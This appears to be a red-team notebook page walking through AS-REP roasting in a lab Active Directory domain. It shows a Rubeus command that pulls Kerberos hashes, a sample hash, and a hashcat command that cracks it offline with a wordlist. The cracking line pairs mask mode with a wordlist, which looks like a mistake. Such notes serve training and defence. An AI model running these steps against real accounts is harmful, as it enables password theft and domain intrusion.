 # AS-REP Roasting

AS-REP roasting is a technique that allows retrieving password hashes for users that have `Do not require Kerberos preauthentication` property selected:

![](../../.gitbook/assets/screenshot-from-2019-03-12-21-08-33.png)

Those hashes can then be cracked offline, similarly to how it's done in [T1208: Kerberoasting](t1208-kerberoasting.md).

## Execution

{% code title="attacker@rubeus" %}
```text
.\Rubeus.exe asreproast
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-03-12-21-22-24.png)

### Cracking AS-REP Hashes with HashCat

Say this is the hash we get for the potential victim:

```text
$krb5asrep$spot@offense.local:3171EA207B3A6FDAEE52BA247C20362E$56FE7DC0CABA8CB7D3A02A140C612A917DF3343C01BCDAB0B669EFA15B29B2AEBBFED2B4F3368A897B833A6B95D5C2F1C2477121C8F5E005AA2A588C5AE72AADFCBF1AEDD8B7AC2F2E94E94CB101E27A2E9906E8646919815D90B4186367B6D5072AB9EDD0D7B85519FBE33997B3D3B378340E3F64CAA92595523B0AD8DC8E0ABE69DDA178D8BA487D3632A52BE7FF4E786F4C271172797DCBBDED86020405B014278D5556D8382A655A6DB1787DBE949B412756C43841C601CE5F21A36A0536CFED53C913C3620062FDF5B18259EA35DE2B90C403FBADD185C0F54B8D0249972903CA8FF5951A866FC70379B9DA
```

We need to insert `23` after the `$krb5asrep$` like so:

```text
$krb5asrep$23$spot@offense.local:3171ea207b3a6fdaee52ba247c20362e$56fe7dc0caba8cb7d3a02a140c612a917df3343c01bcdab0b669efa15b29b2aebbfed2b4f3368a897b833a6b95d5c2f1c2477121c8f5e005aa2a588c5ae72aadfcbf1aedd8b7ac2f2e94e94cb101e27a2e9906e8646919815d90b4186367b6d5072ab9edd0d7b85519fbe33997b3d3b378340e3f64caa92595523b0ad8dc8e0abe69dda178d8ba487d3632a52be7ff4e786f4c271172797dcbbded86020405b014278d5556d8382a655a6db1787dbe949b412756c43841c601ce5f21a36a0536cfed53c913c3620062fdf5b18259ea35de2b90c403fbadd185c0f54b8d0249972903ca8ff5951a866fc70379b9da
```

We can then crack it:

{% code title="attacker@kali" %}
```csharp
hashcat -m18200 '$krb5asrep$23$spot@offense.local:3171EA207B3A6FDAEE52BA247C20362E$56FE7DC0CABA8CB7D3A02A140C612A917DF3343C01BCDAB0B669EFA15B29B2AEBBFED2B4F3368A897B833A6B95D5C2F1C2477121C8F5E005AA2A588C5AE72AADFCBF1AEDD8B7AC2F2E94E94CB101E27A2E9906E8646919815D90B4186367B6D5072AB9EDD0D7B85519FBE33997B3D3B378340E3F64CAA92595523B0AD8DC8E0ABE69DDA178D8BA487D3632A52BE7FF4E786F4C271172797DCBBDED86020405B014278D5556D8382A655A6DB1787DBE949B412756C43841C601CE5F21A36A0536CFED53C913C3620062FDF5B18259EA35DE2B90C403FBADD185C0F54B8D0249972903CA8FF5951A866FC70379B9DA' -a 3 /usr/share/wordlists/rockyou.txt
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-03-12-21-37-56.png)

![](../../.gitbook/assets/screenshot-from-2019-03-12-21-38-14.png)

## References

{% embed url="https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/" %}

{% embed url="https://jsecurity101.com/2019/IOC-differences-between-Kerberoasting-and-AsRep-Roasting/" %}

{% embed url="https://blog.xpnsec.com/kerberos-attacks-part-2/" %}



